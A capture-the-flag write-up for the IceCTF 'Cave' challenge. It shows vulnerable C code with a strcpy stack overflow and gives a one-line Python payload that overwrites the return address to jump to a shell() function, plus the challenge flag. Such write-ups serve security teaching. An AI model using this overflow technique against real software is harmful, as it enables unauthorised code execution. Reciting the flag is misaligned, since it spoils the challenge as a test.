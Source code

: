 ```yaml
---
layout: writeup
title: 'Binare Exploit 50: Cave'
level:
difficulty:
points:
categories: []
tags: []
flag: IceCTF{i_dont_think_caveman_overflowed_buffers}
---
```

## Challenge

You stumbled upon a cave! I've heard some caves hold secrets.. can you
find the secrets hidden within its depths?

    #define _GNU_SOURCE
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    
    void shell() {
        gid_t gid = getegid();
        setresgid(gid, gid, gid);
        system("/bin/sh -i");
    }
    
    void message(char *input) {
        char buf[16];
        strcpy(buf, input);
    
        printf("The cave echoes.. %s\n", buf);
    }
    
    int main(int argc, char **argv) {
        if (argc > 1){
            message(argv[1]);
        } else {
            printf("Usage: ./shout <message>\n");
        }
        return 0;
    }
{: .language-c}

## Solution

Another buffer overflow challenge, this time we need to overwrite the
return address to call the `shell()` function.  
First we need to find out what that address should be, we can do this
with gdb's `info functions shell` or  
`objdump -d ./shout | grep shell` and find out that the address is
`0x0804850b`

So we need to overwrite the return address with this address, in little
endian order:

    ./shout `python -c "print('a'*28+'\x0b\x85\x04\x08')"`

this gives us a root shell and we can read the contents of `flag.txt` to
read our flag:

## Flag

    IceCTF{i_dont_think_caveman_overflowed_buffers}

